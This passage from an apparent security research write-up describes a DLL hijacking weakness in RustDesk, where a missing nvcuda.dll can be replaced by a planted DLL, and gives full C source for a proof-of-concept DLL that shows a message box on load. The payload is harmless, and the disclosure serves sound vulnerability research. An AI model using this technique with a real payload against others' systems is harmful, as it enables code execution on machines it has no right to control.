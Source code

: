 As you can see from the screenshot (hopefully), there were a few missing DLLs. But what really caught my attention was the `nvcuda.dll` file. Since I had no NVIDIA drivers installed on this machine, the DLL could not be properly loaded. So in theory, creating a DLL, naming it `nvcuda.dll` and placing it in the same directory as the executable should launch the malicious code ! I immediately crafted a PoC and tested it.

![](assets/attachment/8f907ffce2ea8ad7314796ee1b042f49.png)

The code (C/C++):

```c
/*

    Author:         Arthur Minasyan (B0lg0r0v)
    Date:           02.01.2025
    Description:    PoC for DLL Injection in 32 and 64-Bit PE of RustDesk

*/
#include <windows.h>

VOID MsgBoxPayload() {

    // Creating a semaphore for execution control
    HANDLE hSemaphore = CreateSemaphoreA(NULL, 10, 10, "Yolo");

    if (hSemaphore != NULL && GetLastError() == ERROR_ALREADY_EXISTS) {

        // Do nothing
    } else {
    
        // The actual payload
        MessageBoxA(NULL, "DLL Injection Successfully performed!", "DLL Injection", MB_OK | MB_ICONINFORMATION | MB_TOPMOST);
    
    }

}

BOOL APIENTRY DllMain (HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved) {

    switch (ul_reason_for_call) {
    
	    case DLL_PROCESS_ATTACH:
	        MsgBoxPayload();
	        break;
	    case DLL_THREAD_ATTACH:
	    case DLL_THREAD_DETACH:
	    case DLL_PROCESS_DETACH:
	        break;
    
    }
    
    return TRUE;

}
```
